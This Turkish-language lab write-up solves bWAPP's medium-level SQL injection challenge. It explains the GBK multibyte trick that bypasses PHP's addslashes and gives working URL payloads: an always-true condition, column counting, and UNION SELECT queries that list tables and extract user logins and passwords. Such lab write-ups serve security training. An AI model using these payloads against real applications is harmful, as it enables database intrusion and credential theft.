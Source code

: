 ## bWAPP SQL Injection (GET/Search) Level Medium
Movies kısmına `'` karakteri koyuyoruz ve hata alamadığımız görüyoruz.

![](/images/first.PNG)

Bundan anlıyoruz ki `'` işaretini escapliyor. SQL sorgumuzun oluştuğu son hal ise aşağıdaki gibi olmaktadır;
```SQL
SELECT * FROM movies WHERE mname LIKE '%\'%'
```
Burada PHP tarafinda addslashes fonksiyonunun kullanıldığını görebiliriz challenge da bu fonksiyonu baypaslayabilmek için mysql char setimizin `character-set-server=GBK` şeklinde olması gereklidir.

###### MYSQL CHARSET AYARI

XAMPP yönetim panelinden my.ini konfigürasyon dosyasını açalım ve character-set-server’ı `character-set-server=GBK` olarak değiştirelim.

![](/images/sqlconf1.png)

![](/images/sqlconfig2.PNG)

###### Addslashes

[Ömer Çıtak](https://omercitak.com/):
>Hex karşılığı 0xbf5c olan “¿\” karakteri, utf 8 charsetinde 2 karakter, GBK charsetinde 1 karakter olarak algılanıyor. İnjection saldırısında sorguya tek tırnak, yani 0x27 gönderdiğiniz vakit mysql_real_escape_string veya addslashes fonksiyonlarımız bizim tırnağımızı “\’” haline çeviriyor. Tırnaktan önce “¿” (0xbf) karakterini gönderdiğimizde yani “¿’” (0xbf27) karakterini gönderdiğimizde, tırnaktan önce \ eklendiğinden gönderdiğimiz karakter “¿\’” (0xbf5c27) halini alıyor. GBK charseti “¿\” karakterini tek karakter olarak aldıladığından sondaki tırnağımız boşa çıkıyor, böylece sorgunun gidişatını değiştirmiş oluyorsunuz. Sonrasında injection ile sorguyu istediğimiz şekle sokabiliriz.

###### bWAPP SQL Injection (GET/Search)

Uygulamamızda rastgele birşeyler aratalım ve url in title kısmını `title=%bf%27` olarak değiştirlerim.

![](/images/error.jpeg)

Tek tırnak işaretimiz fazla olduğu için SQL hatası aldık.Url in title kısmını `title=%bf%27or1=1--+` değiştirirsek artık hata almadığımızı ve iki koşuldan birisi doğru olduğu için tüm filmleri görmüş oluyoruz.

![](/images/or1=1.jpeg)

Tablonun kolon sayısını öğrenmek için `title=%bf%27GROUP BY (değer)--+` değer kısmını uygulama hata verene kadar bir bir arttıralım ve hata verdikten bir önceki sayımız  kolon sayımızdır.
Kolon sayımızı bulduğumuza göre UNION sorgumuzu çalıştırabiliriz.Tablo isimlerini bulmak için information_schema tablosunu kullanıyoruz. `title=%bf%27%20UNION%20SELECT%20NULL,table_name,NULL,NULL,NULL,NULL,NULL%20FROM%20information_schema.tables--+`

![](/images/tables.jpeg)

Sırada column ismini bulamız gerekli ama bunu maalesef ki başaramıyoruz çünkü tırnak karakterini escaplemek için `%bf`kullanmamız gerekli ve bu karakter tablo ismimizin içine giriyor ve tablo ismimizi bozuyor.

Örnek:table_name='' olarak string içine yazmamız gerek tablo ismi aşağıdaki gibi tablo ismimizin sonuna %bf karakteri geliyor.
**`title=%bf%27%20UNION%20SELECT%20NULL,column_name,NULL,NULL,NULL,NULL,NULL%20FROM%20information_schema.columns WHERE `_table_name=%bf%27tablename%bf%27_--+**

Users isminde tablo bulduğumuz için klonları tahmin edebiliriz.Title ımızı değiştirerek kullanıcı adı ve parolayı çekiyoruz. 
`title=%bf%27%20UNION%20SELECT%20NULL,login,password,NULL,NULL,NULL,NULL%20FROM%20users--+`

![](/images/users.jpeg)

###### Kaynak

https://omercitak.com/injection-saldirilarinda-mysql_real_escape_string-ve-addslashes-bypass/

https://shiflett.org/blog/2006/addslashes-versus-mysql-real-escape-string
